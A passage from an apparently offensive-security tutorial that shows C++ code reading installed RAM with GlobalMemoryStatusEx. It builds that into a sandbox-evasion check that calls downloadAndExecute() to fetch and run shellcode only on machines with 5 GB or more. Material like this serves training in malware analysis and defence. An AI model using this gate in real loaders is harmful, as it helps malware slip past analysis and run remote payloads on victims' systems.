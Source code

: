 In this scenario, we are specifically interested in the total amount of physical memory installed on the system, so we will print out the ullTotalPhys member of the MEMORYSTATUSEX struct to get the size of the memory installed in the system in Bytes. We can then divide by 1024 3x to get the value of memory installed in GiB. Now let’s see what this looks like in C++:

```cpp
#include <iostream>
#include <Windows.h>
using namespace std;
int main() {
// Declare the MEMORYSTATUSEX Struct    
   MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
   statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
   GlobalMemoryStatusEx(&statex);
// Print the physical memory installed on the system    
   cout << "There is " << statex.ullTotalPhys/1024/1024/1024 << "GiB of memory on the system.";
} 
```

This code can be broken down into the following steps:

1. We're going to declare the MEMORYSTATUSEX Struct; this will be populated with info from the `GlobalMemoryStatusEx` WinAPI.
2. Now, we must set the length of the struct so that we can populate it with data. To do so, we're going to use the `sizeof` function.
3. Now that we have the length of the struct, we can populate it with data from the `GlobalMemoryStatusEx` WinAPI.
4. We can now read the total memory amount from the system.

### Integrating This into our Code

Now that we have the technical know-how, we should integrate this check into our code. Generally speaking (You should verify this by yourself), most Sandboxes have 4GB of RAM dedicated to the machine, so we should check and see if the memory count is greater than 5; if it is not, exit the program; if it is, continue execution. We will not be modifying the `downloadAndExecute` function anymore; from here on, we will be adding new functions and changing the main function.

```cpp
BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```